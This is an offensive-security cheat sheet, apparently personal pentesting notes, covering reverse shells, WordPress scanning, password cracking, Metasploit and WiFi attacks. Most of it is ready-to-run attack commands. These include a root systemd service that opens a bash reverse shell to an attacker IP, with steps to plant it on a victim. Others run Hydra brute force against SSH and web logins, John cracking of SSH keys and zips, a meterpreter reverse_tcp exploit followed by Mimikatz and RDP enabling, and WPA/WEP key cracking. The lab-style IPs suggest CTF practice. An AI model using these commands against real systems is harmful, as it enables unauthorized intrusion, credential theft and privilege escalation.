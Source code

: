 # Attack Tools

## Reverse Shell

### Netcat

Install```sudo apt install ncat```

Start netcat listening on e.g. port 1234: ```nc -lvnp 1234```

Once payload is triggered netcat will open a reverse shell:

![netcat_injecttest](_netcat_injecttest.jpg)

### Create service

Create 0xfab1.service in /temp/

``` txt
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.193.173/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

- move file to /temp/ of www-data from attacker box:
 -on victim: ```nc -vl 44444 > fab.service```
- on attacker: ```nc -n TargetIP 44444 < fab.service```
- on attacker now start a new netcat session on 9999: ```nc -lvnp 9999```

Now use systemctl on victim machine and we should be root from the attacker box:

``` sh
/bin/systemctl enable /tmp/fab.service
/bin/systemctl start fab
```

## Web

### Wordpress

[WPScan](https://github.com/wpscanteam/wpscan) is a WordPress security scanner to test the security of their WordPress websites.

Example

``` sh
wpscan --url http://example.org/wordpress -e u
wpscan --url http://example.org/wordpress --usernames admin --passwords wordlist.txt --threads 10
```

## Passwords

- Crunch: create custom wordlists

### John the ripper

[John the Ripper](https://github.com/openwall/john) is a tool for offline password cracking. If you prefer a GUI there is one available [here](https://github.com/openwall/johnny).

Crack keyfile PW

``` sh
gzip -d /usr/share/wordlists/rockyou.txt.gz
/usr/share/john/ssh2john.py ssh-key-kay.txt > forjohn.txt
john forjohn.txt --wordlist /usr/share/wordlists/rockyou.txt
```

Convert a JWT to a format John the Ripper can understand with [jwt2john](https://github.com/Sjord/jwtcrack):

``` sh
wget --quiet -O /usr/local/bin/jwt2john.py "https://raw.githubusercontent.com/Sjord/jwtcrack/master/jwt2john.py"
sed -i '1s;^;#!/usr/bin/env python\n;' /usr/local/bin/jwt2john.py
chmod +x /usr/local/bin/jwt2john.py
```

Crack a password protected zip file:

``` sh
zip2john filename.zip > filename.hash
john filename.hash --wordlist=wordlist.txt --verbosity=5
```

### Hydra

SSH PW Brute Force user "user"

``` sh
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://10.10.112.131
```

Web Form Brute Force:

``` sh
hydra -l user -P /usr/share/wordlists/rockyou.txt 10.10.233.243 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V 
```

## Metasploit

### Config

Start PostgreSQL und Metasploit on boot

``` sh
update-rc.d postgresql enable
update-rc.d metasploit enable
```

Manuall start

``` sh
service postgresql start
service metasploit start
```

### Start msfconsole

Init Metaspoit and start the console

``` sh
msfdb init
msfconsole -h
msfconsole
db_status
```

Add Target

``` sh
db_nmap -sV 10.10.201.217
```

Scan Target

``` sh
hosts
services
vulns
```

### Use Exploit

This is an example using an exploit with Metasploit:

``` sh
search multi/handler
use # exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.193.173
set RHOSTS 10.10.201.217
use icecast
run -j
sessions
sessions -i 1
```

Check Machine

``` sh
getprivs
sysinfo
getuid
```

Start Mimikatz

``` sh
load kiwi
```

Try different exploits

``` sh
run post/windows/gather/checkvm
run post/multi/recon/local_exploit_suggester
run post/windows/manage/enable_rdp
```

``` sh
run autoroute -s 10.10.201.217 -n 255.255.255.0
```

## WiFi

### Aircrack-NG suite

Send Kismet dump

``` sh
aircrack-ng -b 00:1E:58:B4:24:F4 /root/Kismet.dump
```

Preparing The WIFI Card for Airodump

``` sh
modprobe -r iwl3945
modprobe ipwraw
airmon-ng start [device]
airodump-ng [device]
airodump-ng -c [channel] -w [network.out] –bssid [bssid] [device]
aireplay-ng -1 0 -a [bssid] -h 00:11:22:33:44:66 -e [essid] [device]
airplay-ng -3 -b [bssid] -h 00:11:22:33:44:66 [device]
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b [bssid] -h 00:11:22:33:44:66 [device]
aircrack-ng -n 128 -b [bssid] [filename]-01.cap
```

### WiFite2

[wifite2](https://github.com/kimocoder/wifite2) is a tool to audit WEP or WPA encrypted wireless networks. It uses aircrack-ng, pyrit, reaver, tshark tools to perform the audit.

Examples:

- Cracking WPS PIN (Pixie-Dust with Reaver to get PIN and Bully to get PSK): ```wifite -e ESSID```
- Cracking WPA key using PMKID attack: ```wifite -e ESSID --pmkid```
- Decloaking & cracking a hidden access point on channel 10 using the WPA Handshake attack: ```wifite -c 10```
- Cracking a weak WEP password using the WEP Replay attack: ```wifite --wep```
- Cracking a pre-captured handshake using John The Ripper: ```wifite --crack```
- Cracking a 5Ghz WiFi (skipping WPS, PMKID to save time) using a given dictionary: ```sudo wifite --kill --no-wps --no-pmkid --5ghz --dict wordlist.txt```

### Kismet

Config [Kismet](https://www.kismetwireless.net)

- Config this file ```/usr/local/etc/kismet.conf```
- And add a sourece e.g. ```source=ipw2200,eth1,Intel```

Commands

- ss (type)
- L (choose WIFI+Channel)
- i (Info → copy BSSID)

### Fluxion

Clone of the target Wi-Fi network.
